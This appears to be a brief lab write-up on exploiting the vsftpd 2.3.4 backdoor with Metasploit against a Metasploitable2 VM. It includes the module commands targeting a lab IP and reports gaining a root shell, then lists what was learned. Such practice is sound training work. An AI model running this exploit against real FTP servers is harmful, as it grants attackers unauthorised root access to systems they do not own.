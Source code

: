 
---

##  Lab03 – Exploiting FTP Backdoor (vsftpd 2.3.4)


# Lab03 – Exploiting FTP Backdoor (vsftpd 2.3.4)


##  Objective
Exploit a known backdoor vulnerability in the vsftpd 2.3.4 service to gain shell access.

---

##  Tools
- Metasploit Framework
- Kali Linux

---

##  Exploit Used
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
set RPORT 21
run
```

---

## Result
Successfully exploited vsftpd backdoor

Gained root shell on the target (Metasploitable2)

---

## What I Learned
Understood how to identify and target known CVEs

Practiced Metasploit module usage with precision

Experienced real-world post-exploitation workflow

===

## Screenshot


---

## Date
23 May 2025
